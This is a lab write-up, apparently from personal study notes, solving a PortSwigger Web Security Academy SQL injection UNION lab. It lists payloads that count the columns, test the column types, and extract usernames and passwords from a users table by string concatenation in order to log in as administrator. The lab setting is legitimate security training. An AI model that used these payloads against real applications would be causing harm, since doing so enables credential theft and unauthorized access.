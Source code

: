 ```yaml
---
title: 'Lab: SQL injection UNION attack, retrieving multiple values in a single column'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, retrieving multiple values in a single column
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables. 
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Exp
1. Consider how many columns in this table
Payload: `?category=Lifestyle' UNION SELECT NULL,NULL--`
2. Consider the type of each columns
Payload: `?category=Lifestyle' UNION SELECT 1,'a'--`
As the payload above, the 1st column is number-based string, and 2nd column is text-based string.
    :::spoiler Result
    ![](https://i.imgur.com/9V0cYHD.png)
    :::
3. <font color="FF0000">通靈</font>: Find username and password
From the result above, there's just one column is text-based string that we can inject, so we can use concatenate operator `||` to concatenate two strings that we query together.
Payload: `?category=Gifts' UNION SELECT NULL,username||'~'||password FROM users--`
    :::spoiler Result
    ![](https://i.imgur.com/d1zw9eY.png)
    :::
4. Login by username and password that we fetch
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/P9CLaQg.png)
    :::

## Reference